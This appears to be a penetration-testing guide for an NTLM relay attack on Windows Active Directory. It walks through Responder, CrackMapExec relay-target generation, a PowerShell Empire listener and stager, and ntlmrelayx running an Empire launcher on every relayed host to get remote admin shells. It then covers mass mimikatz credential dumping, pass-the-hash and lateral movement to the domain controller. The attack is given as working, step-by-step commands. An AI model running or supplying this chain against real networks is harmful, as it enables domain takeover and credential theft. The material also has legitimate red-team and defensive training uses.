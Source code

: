 ### Responder with NTLM relay attack

byt3bl33d3r has written some good guides on this attack. See [b3t3bl33d3r's guide](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user\(s\) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts  and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

#### Responder

Now in the previous attack Responder had set up an HTTP and SMB server to act as a middleman. We now want to give our captured hashes to NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```

where eth0 is your interface. The -wrf is optional.

#### Empire

Now getting into Empire should take an hour or so to have it all memorized. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/), but a few commands are listed below:

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. \(You should get an agent instantly\).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.

